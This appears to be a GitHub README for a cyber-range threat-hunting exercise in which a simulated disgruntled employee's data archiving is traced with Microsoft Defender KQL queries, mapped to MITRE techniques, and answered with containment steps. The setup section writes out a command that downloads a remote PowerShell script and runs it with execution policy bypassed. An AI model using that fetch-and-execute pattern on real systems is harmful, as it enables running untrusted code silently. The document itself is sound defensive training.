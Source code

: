 # 🛡️ Threat Hunting: Data Exfiltration by PIPd Employee (Simulated)

## 📁 Overview
This project documents the threat hunting investigation of a simulated data exfiltration attempt using Microsoft Defender for Endpoint (MDE), PowerShell, and KQL queries. The incident was initiated by executing a malicious PowerShell script that created and zipped employee data.

---

## 💣 Initial Setup: Simulated Attack
To generate logs for hunting, a PowerShell script named `exfiltratedata.ps1` was executed in a Windows VM (labuser).

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```
![Malicious Code that was I runned before doing the threat hunt](https://github.com/user-attachments/assets/534ba0a4-90f5-429b-8b6a-95c464a58789)


### What the Malicious Script Does:
- Creates fake employee data (names, SSNs, salaries)
- Saves the data to a CSV file
- Compresses the file into a ZIP using 7-Zip
- Logs the actions to a file: `C:\ProgramData\entropygorilla.log`

---

## 🚩 Scenario Summary
- A disgruntled employee, John Doe, suspected of data theft after being placed on a PIP
- Script silently downloaded and archived fake employee data
- Analysis revealed archive and PowerShell activity using `7z.exe`

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: John may compress and exfiltrate sensitive data
- Reason: Admin privileges, performance concerns, behavioral red flags

### 2. Data Collection
Queried logs in MDE:
I did a search within MDE DeviceFileEvents for any activities with zip files, and found a suspicious activity involving a file named 7.zip created at Jun 16, 2025 12:26:25 AM and confirmed `7z.exe` used around the same timestamp a ZIP file was created:
```kql
DeviceFileEvents
| where DeviceName == "labuser"
| where FileName endswith ".zip"
| order by Timestamp desc
```
![Screenshot 2025-06-16 231527](https://github.com/user-attachments/assets/af7eae97-c5da-4785-8d67-fddcb51c0fb4)

### 3. Data Analysis
I took one of the instances of a zip file being created, took the timestamp and searched under DeviceProcessEvents for any Look for any kind of archive activity that included the 7-zip file. I discovered around the same time, a powershell script silently installed 7zip and then used 7zip to zip up employee data into an archive who’s Device Name is michealvm
Queried logs in MDE:
```kql
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe"]);
let VMName = "labuser";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| order by Timestamp desc
```
![Screenshot 2025-06-16 234256](https://github.com/user-attachments/assets/7c34a8b0-dbe4-493d-a08e-01b1721d5e65)

### 4. Investigation
Located execution of PowerShell and download activity:

Confirmed script downloaded and executed `exfiltratedata.ps1` silently.

![Capture3 (1)](https://github.com/user-attachments/assets/02905b4e-0045-4514-b8a3-52cffa997b46)

![Capture4 (1)](https://github.com/user-attachments/assets/9993d8d0-39a0-4a65-9e03-ba55dec38343)

# End logging
Log-Message "Script execution completed successfully."
### 5. Response
Steps taken:
- ✅ Isolated the endpoint via Microsoft Defender
- ✅ Alerted management of potential data archiving
- ✅ Verified no outbound exfiltration occurred during test
![Screenshot 2025-06-16 231527](https://github.com/user-attachments/assets/246c384e-1a79-4d1d-b7d5-b8e4de92bb17)

### 6. Documentation
Documented full investigation, timestamps, KQL queries, and matching MITRE techniques. All screenshots and findings are included in this repository.
Notes I took for documentation of steps:
file:///C:/Users/arbof/Downloads/Untitled%20document.pdf
### 7. Improvement
- 🔐 Improve PowerShell script logging
- 📦 Alert on archive creation by unexpected processes
- 👮‍♂️ Limit admin rights for non-IT staff
- 🧠 Include 7-Zip and other archivers in threat detection rules

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic             | Technique                            | ID         |
|--------------------|----------------------------------------|------------|
| Execution          | PowerShell                            | T1059.001  |
| Defense Evasion    | Obfuscated Files or Information        | T1027      |
| Collection         | Archive via Utility                    | T1560.001  |
| Collection         | Data from Local System                 | T1005      |
| Exfiltration       | Exfiltration Over C2 Channel           | T1041      |
| Discovery          | File and Directory Discovery           | T1083      |
| Persistence        | Scheduled Task/Job                     | T1053.005  |
| Command & Control  | Ingress Tool Transfer                  | T1105      |
| Exfiltration       | Exfiltration to Cloud Storage          | T1567.002  |
| Execution          | User Execution: Malicious File         | T1204.002  |
| Defense Evasion    | Masquerading                           | T1036      |

---

## 📌 Recommendations
- Alert on unexpected use of PowerShell downloading scripts
- Audit scheduled task creations
- Monitor and alert on use of 7-Zip, WinRAR, etc.
- Limit user access to scripting tools

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Windows PowerShell ISE
- PowerShell Command Line
- KQL (Kusto Query Language)

---

Project maintained by: Felipe Restrepo  
Date: June 17, 2025

